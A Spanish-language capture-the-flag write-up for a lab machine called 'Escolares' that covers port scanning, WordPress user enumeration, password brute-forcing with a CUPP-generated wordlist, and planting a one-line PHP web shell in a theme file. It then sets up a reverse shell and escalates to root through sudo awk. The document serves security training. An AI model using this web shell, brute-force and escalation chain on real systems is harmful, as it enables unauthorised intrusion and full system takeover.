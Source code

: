 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Escolares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre una universidad de ciberseguridad.

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un comentario que parece ser relevante ya que la información del personal académico está en el directorio `/profesores.html` por lo que accedemos a él.

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de **Luis** ya que pone que es el **admin** de Wordpress.

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Hemos localizado la ruta que necesitábamos, ahora utilizaremos **WPscan** para identificar la versión específica de WordPress y enumerar los usuarios, con el fin de confirmar los hallazgos anteriores.

```bash
wpscan --url http://172.17.0.2/wordpress/ -e u
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado la existencia del usuario **luisillo** en el WordPress. Ahora, procederemos a utilizar Hydra para realizar un ataque de fuerza bruta contra este usuario

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l luisillo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. No tenemos suerte por lo que probaremos otra cosa.

Para obtener la contraseña del usuario, utilizaremos la herramienta **CUPP** (Common User Passwords Profiler), que no viene preinstalada en Kali Linux. CUPP está diseñada para generar listas de contraseñas personalizadas basadas en la información específica del usuario objetivo. Esto es útil porque muchos usuarios suelen crear contraseñas utilizando datos personales, como su nombre, fecha de nacimiento o el nombre de su mascota, en lugar de contraseñas genéricas.

Una vez que hemos instalado CUPP, ejecutamos el siguiente comando en la terminal para iniciarlo en modo interactivo:

```bash
cupp -i
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Con la lista de contraseñas generada, estamos preparados para llevar a cabo el ataque de fuerza bruta y tratar de obtener credenciales válidas.

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

La contraseña del usuario **luisillo** es **Luis1981**. Probamos las credenciales en el formulario del Wordpress.

> Nota: si nos da error [http://172.17.0.2/wordpress/wp-login.php](http://172.17.0.2/wordpress/wp-login.php) se debe añadir el dominio a /etc/hosts es decir, añadir 172.17.0.2 escolares.dl y reiniciar la página.

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Nos deja entrar cuando quitamos el bloqueo de las cookies.

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Accede al archivo `index.php` en la ruta `wp-content/themes/twentytwentytwo/` de tu instalación de WordPress y modifica el archivo con el siguiente código PHP:

```markdown
<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>
```

Luego, abre tu navegador y accede a la siguiente URL para ejecutar comandos:

```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Al ejecutar el comando `whoami`, deberías ver el resultado en la página, que indicará el usuario bajo el cual se está ejecutando el servidor web que es `www-data`. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse **shell** utilizando la página web por lo que subimos este archivo PHP [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/reverse.php
```

Después de ejecutar el comando codificado en la URL, la página puede quedarse cargando indefinidamente. Esto indica que la solicitud está en proceso, pero no necesariamente significa que ha fallado.

Nos ponemos en escucha por el puerto 443:

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root** ya que somos www-data como se mostraba anteriormente.

Para facilitar la interacción con la **shell**, migraremos a una sesión de **bash** más funcional. Esto es necesario porque en la **shell** actual no podemos utilizar las teclas de flecha ni acceder al historial de comandos. Ejecutando el siguiente comando, iniciamos una nueva sesión de bash sin registrar la actividad en ningún archivo:

```bash
script /dev/null -c bash
```

Estamos ejecutando comandos como el usuario `www-data`, lo que significa que nuestros permisos son limitados. Sin embargo, podemos intentar explorar el directorio `/home` para ver si encontramos algo interesante. Al revisar el contenido de `/home`, además de los directorios de usuarios, encontramos un archivo llamado `secret.txt`. Este archivo contiene la contraseña de un usuario llamado **Luisillo**, lo que podría ser útil para obtener acceso adicional.&#x20;

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema como el usuario **Luisillo**. Ahora que tenemos acceso como un usuario normal, navegamos a su carpeta personal y listamos el contenido, pero no encontramos nada relevante. Sin embargo, al ejecutar `sudo -l`, descubrimos que podemos elevar privilegios utilizando el binario `awk`.

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Visitamos la página de **GFTOBins** para buscar una forma de escalar privilegios usando el binario `awk`. En la sección correspondiente a `awk` bajo el contexto de `sudo`, encontramos el comando que nos permitirá abusar de este binario para obtener privilegios de **root**. Puedes revisar los detalles en el siguiente enlace:

[GFTOBins - awk (sudo)](https://gtfobins.github.io/gtfobins/awk/#sudo)

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
